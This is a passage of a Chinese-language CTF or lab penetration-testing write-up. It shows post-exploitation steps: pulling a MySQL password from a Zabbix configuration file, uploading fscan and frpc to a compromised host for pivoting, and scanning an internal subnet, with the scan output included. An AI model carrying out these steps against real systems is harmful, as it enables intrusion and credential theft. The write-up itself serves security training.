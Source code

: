 ![image-20231018112157758](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018112157758.png)

### flag5

获取flag

![image-20231018112346962](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018112346962.png)

`192.168.12.50`其实还开了3306端口，找找`zabbix`的配置文件，看看能不能找到`mysql`的密码

找到了 `/etc/zabbix/web/zabbix.conf.php`

![image-20231018124913624](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018124913624.png)

### flag6

连接mysql后，里面还有一个flag

![image-20231018125223590](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018125223590.png)

回到`192.168.12.55`

传入`fscan`和`frpc`

先看一下路由

```bash
rouet print
```

有一个`192.168.14.0/24`网段

![image-20231018112950459](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018112950459.png)

`fscan` 启动！！！

```bash
fscan.exe -h 192.168.14.0/24 -pa 3389,8888 > in.txt
```

```bash
start infoscan
(icmp) Target 192.168.14.53   is alive
(icmp) Target 192.168.14.51   is alive
(icmp) Target 192.168.14.101  is alive
(icmp) Target 192.168.14.254  is alive
[*] Icmp alive hosts len is: 4
192.168.14.53:445 open
192.168.14.53:135 open
192.168.14.101:88 open
192.168.14.101:135 open
192.168.14.101:445 open
192.168.14.53:139 open
192.168.14.51:139 open
192.168.14.51:135 open
192.168.14.51:445 open
192.168.14.101:139 open
192.168.14.254:80 open
192.168.14.254:8443 open
192.168.14.53:3389 open
192.168.14.51:3389 open
192.168.14.101:3389 open
[*] alive ports len is: 15
start vulscan
[*] NetInfo:
[*]192.168.14.101
   [->]scene
   [->]192.168.14.101
```